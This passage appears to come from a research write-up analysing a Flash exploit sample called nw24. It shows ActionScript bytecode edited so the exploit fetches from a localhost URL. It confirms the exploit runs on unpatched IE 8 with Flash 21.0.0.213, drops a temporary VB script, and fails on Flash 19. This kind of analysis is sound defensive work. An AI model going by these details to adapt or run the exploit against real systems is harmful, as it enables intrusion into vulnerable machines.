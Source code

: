 with:

```
getscopeobject 1
pushstring "njikqzcmxs"
setslot 3
getscopeobject 1
pushstring "http://localhost:8080/nw24"
setslot 4
getscopeobject 1
pushstring "fake UserAgent"
setslot 5
```

The idea is to obtain a valid Action Script in the left window, see figure \ref{nw24_modification}.

![Modified nw24\label{nw24_modification}](images/nw24_modification.png)

We load the modified nw24 Flash file in a Windows 7 x64 IE 8 unpatched with Flash 21.0.0.213
installed. Indeed, the exploit works, a temporary VB script is created and the local HTTP
server is reached with the specified URL.

It is interesting to note that the exploit fails with Flash 19.0.0.207 because the feature
used in the exploit did not exist yet. We check the error using the Standalone Debug executable:

```
VerifyError: Error #1014: Class com.adobe.tvsdk.mediacore.timeline.
                          operations::DeleteRangeTimelineOperation could not be found.
```

\pagebreak

## Shellcode
\label{shellcode}

